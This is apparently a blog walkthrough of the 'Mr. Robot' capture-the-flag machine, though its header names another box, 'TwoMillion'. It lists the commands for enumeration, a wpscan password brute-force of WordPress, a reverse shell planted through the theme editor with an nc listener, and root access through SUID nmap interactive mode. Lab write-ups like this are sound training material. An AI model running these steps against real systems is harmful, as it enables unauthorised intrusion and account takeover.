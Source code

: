```yaml
---
title : "TwoMillion"
date : 2025-06-19 
layout : post
categories : [HTB]
tags : [TwoMillion]
Difficulty : Easy
author : jana
---
```


# 🔍 Mr. Robot CTF Walkthrough – A Penetration Testing Report

## 🧠 Objective

This report details the steps taken to compromise the *Mr. Robot* vulnerable machine. The goal is to obtain user and root flags using a combination of web enumeration, password cracking, and local privilege escalation.

---

## 🔎 1. Reconnaissance

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN nmap/initial.txt 10.10.10.100
```

**Results:**

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu
80/tcp   open  http    Apache httpd 2.4.7
```

### 🌐 Web Enumeration

Visited `http://10.10.10.100/` in browser.

- Found a **robot-themed website**.
- `robots.txt` revealed two interesting entries:
  ```
  User-agent: *
  Disallow: /fsocity.dic
  Disallow: /key-1-of-3.txt
  ```

### 🧰 Gobuster

```bash
gobuster dir -u http://10.10.10.100 -w /usr/share/wordlists/dirb/common.txt
```

- Found `/admin`, `/license`, `/images`, etc.
- No login forms, but `/fsocity.dic` is downloadable — appears to be a **dictionary file**.

---

## 🔓 2. Exploitation

### 🧪 Using `fsocity.dic` for WordPress Login Brute-force

Identified that the site uses **WordPress** (`wp-login.php` exists).

Used **wpscan**:

```bash
wpscan --url http://10.10.10.100 --wordlist fsocity.dic --username elliot
```

Successfully logged in as **elliot**.

### 🧬 Reverse Shell

Uploaded a **reverse shell** using WordPress theme editor (modified 404.php).

Set listener:

```bash
nc -lvnp 4444
```

Triggered reverse shell by visiting the modified file in browser.

---

## 🔐 3. Privilege Escalation

Enumerated user and found:

```bash
cat key-1-of-3.txt
```

### 🔍 Local Enumeration

Found SUID binary: `nmap`

```bash
nmap --interactive
> !sh
```

Got root shell via `nmap` interactive mode.

---

## 🏁 4. Flags

```bash
cat /home/robot/key-2-of-3.txt
```

```bash
cat /root/key-3-of-3.txt
```

---

## 📄 Summary

| Phase         | Technique / Tool                  | Result         |
|---------------|-----------------------------------|----------------|
| Recon         | Nmap, Gobuster                    | Identified WordPress |
| Exploitation  | Wpscan, fsocity.dic brute-force   | Gained user shell |
| Priv Esc      | SUID nmap                         | Root shell obtained |
| Flags         | Text files                        | ✅ All 3 flags captured |

---

## 🧠 Lessons Learned

- Always check `robots.txt` — goldmine for hidden files.
- Dictionary files can be reused for brute-force attacks.
- SUID binaries like `nmap`, `vim`, or `less` are classic privilege escalation vectors.

---

## 🧰 Tools Used

- Nmap
- Gobuster
- WPScan
- Netcat
- Burp Suite (for some traffic analysis)

---

## 📎 Tags

`#CTF` `#TryHackMe` `#VulnHub` `#WordPress` `#PrivilegeEscalation` `#Linux` `#Pentesting`

---

> ✍️ *Thanks for reading! If you found this useful, follow me for more walkthroughs and real-world pentest content.*
